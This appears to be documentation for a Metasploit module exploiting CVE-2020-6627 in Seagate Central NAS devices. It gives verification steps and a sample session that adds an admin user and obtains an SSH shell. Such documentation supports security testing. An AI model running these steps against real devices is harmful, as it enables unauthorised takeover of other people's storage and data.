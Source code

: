 ## Description
This module exploits the broken access control vulnerability in Seagate Central External NAS Storage device. (CVE-2020-6627)
Subject product suffers several critical vulnerabilities such as broken access control. It makes it possible to changes the device state 
and register a new admin user witch is capable of ssh access.

## Vulnerable Application 
Seagate Central is your personal cloud, providing a centralized location to store your files
from your Windows and Mac, mobile devices, and social networks. Play movies and music
and view photos from Seagate Central throughout your home on your smart TV, game
console, and tablet, and on an Internet-connected mobile device while on the road. With
Seagate Central, you can keep your digital life centralized and organized. 
read more : https://www.seagate.com/files/www-content/support-content/external-products/seagate-central/en-us/seagate-central-user-guide-us.pdf

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/seagate_central_ssh_user_add`
  4. Do: `set rhost <ip>`
  5. Do: `set rport <port>`
  5. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```

## Scenarios
```
msf5 > use exploit/linux/http/seagate_central_ssh_user_add 
msf5 exploit(linux/http/seagate_central_ssh_user_add) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 exploit(linux/http/seagate_central_ssh_user_add) > set rport 80
rport => 80
msf5 exploit(linux/http/seagate_central_ssh_user_add) > run

[*] Current device state: social
[+] State successfully changed !
[*] Creating new admin user...
[*] User: jesse3233
[*] Pass: OdSvdFcT
[+] 192.168.1.27:80 - Login Successful (jesse3233:OdSvdFcT)
[*] Found shell.

id
uid=1001(jesse3233) gid=1001
```
